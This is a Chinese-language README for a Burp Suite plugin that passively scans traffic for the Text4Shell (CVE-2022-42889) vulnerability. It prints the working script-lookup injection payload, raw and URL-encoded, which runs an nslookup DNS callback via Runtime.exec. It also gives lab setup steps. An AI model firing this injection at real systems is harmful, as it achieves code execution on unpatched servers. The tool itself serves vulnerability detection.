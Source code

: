 # BurpText4ShellScan

---

使用java编写的Text4shell burp被动扫描插件

# 简介

---

java maven项目，可以使用`mvn package`进行编译

# 更新

---

```
1.0 - 首次上传，对所有经过burp的包进行被动扫描，扫描对象包括了json、xml、fileupload
```

# payload

---

```
- "%24%7Bscript%3Ajavascript%3Ajava.lang.Runtime.getRuntime%28%29.exec%28%27nslookup+dns-url%27%29%7D"
- "${script:javascript:java.lang.Runtime.getRuntime().exec('nslookup dns-url')}"
```

可以在`resources/config.yml`修改

# 使用

---

### 0x01 搭建环境

使用github中的[https://github.com/karthikuj/cve-2022-42889-text4shell-docker](https://github.com/karthikuj/cve-2022-42889-text4shell-docker)搭建环境

![image-20221217013031381](https://github.com/A0WaQ4/BurpText4ShellScan/blob/main/img/image-20221217013031381.png)



### 0x02 插件

代理访问`http://yourip:80/text4shell/attack?search=aaa`，开始扫描

在logger中可看见插件发送的包

![image-20221217013353536](https://github.com/A0WaQ4/BurpText4ShellScan/blob/main/img/image-20221217013353536.png)

仅对是否可以dnslog进行扫描，若dnslog接受到请求，则爆出漏洞

![image-20221217013651624](https://github.com/A0WaQ4/BurpText4ShellScan/blob/main/img/image-20221217013651624.png)

![image-20221217013717306](https://github.com/A0WaQ4/BurpText4ShellScan/blob/main/img/image-20221217013717306.png)

### 0x03 配置

在`resources/config.yml`中的`dnsLogModule`修改dnslog配置

![image-20221217014026078](https://github.com/A0WaQ4/BurpText4ShellScan/blob/main/img/image-20221217014026078.png)



# 参考

---

[https://github.com/pmiaowu/BurpFastJsonScan](https://github.com/pmiaowu/BurpFastJsonScan)

[https://github.com/f0ng/text4shellburpscanner](https://github.com/f0ng/text4shellburpscanner)

# 免责声明

---

该工具仅用于安全自查检测

由于传播、利用此工具所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任。

本人拥有对此工具的修改和解释权。未经网络安全部门及相关部门允许，不得善自使用本工具进行任何攻击活动，不得以任何方式将其用于商业目的。
